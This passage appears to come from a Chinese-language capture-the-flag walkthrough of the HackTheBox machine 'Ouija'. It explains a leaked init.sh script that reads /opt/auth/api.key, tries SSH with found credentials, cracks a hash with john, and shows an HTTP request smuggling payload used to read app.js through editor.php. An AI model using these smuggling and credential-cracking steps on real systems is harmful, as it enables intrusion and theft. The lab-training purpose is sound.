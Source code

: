    上述请求发送两次，然后得到init.sh中的内容

   ```sh
   #!/bin/bash
   
   echo "$(date) api config starts" >>
   mkdir -p .config/bin .config/local .config/share /var/log/zapi
   export k=$(cat /opt/auth/api.key)
   export botauth_id="bot1:bot"
   export hash="4b22a0418847a51650623a458acc1bba5c01f6521ea6135872b9f15b56b988c1"
   ln -s /proc .config/bin/process_informations
   echo "$(date) api config done" >> /var/log/zapi/api.log
   
   exit 1
   ```

   ①`mkdir -p .config/bin .config/local .config/share /var/log/zapi` ：此命令创建多个目录（如果它们尚不存在）。 `-p` 选项确保根据需要创建父目录。

   ② `export k=$(cat /opt/auth/api.key)` ：此行读取文件 `/opt/auth/api.key` 的内容并将其分配给变量 `k` 。 `export` 命令使该变量可供子进程使用。

   ③ `export botauth_id="bot1:bot"` ：此行将环境变量 `botauth_id` 设置为字符串“bot1:bot”。

   ④ `export hash="4b22a0418847a51650623a458acc1bba5c01f6521ea6135872b9f15b56b988c1"` ：此行将环境变量 `hash` 设置为特定值。

   ⑤`ln -s /proc .config/bin/process_informations` ：此命令在目录 `.config/bin` 中创建一个名为 `process_informations` 的符号链接，该链接指向 `/proc` 目录。

   

   猜测bot1可能是目标机器上的用户，然后bot是密码，尝试通过ssh链接，失败。

   尝试破解该hash，猜测它是用户的密码，失败。

   ```
   └─# hashid 4b22a0418847a51650623a458acc1bba5c01f6521ea6135872b9f15b56b988c1
   Analyzing '4b22a0418847a51650623a458acc1bba5c01f6521ea6135872b9f15b56b988c1'
   [+] Snefru-256 
   [+] SHA-256 
   [+] RIPEMD-256 
   [+] Haval-256 
   [+] GOST R 34.11-94 
   [+] GOST CryptoPro S-Box 
   [+] SHA3-256 
   [+] Skein-256 
   [+] Skein-512(256) 
   
   └─# john --format=raw-sha256 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
   ```

   

   利用http请求走私来查看app.js

   ```
   POST /index.html HTTP/1.1
   
   Host: ouija.htb
   
   Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa: 
   
   Content-Length: 61
   
   
   
   GET http://dev.ouija.htb/editor.php?file=app.js HTTP/1.1
   
   ```
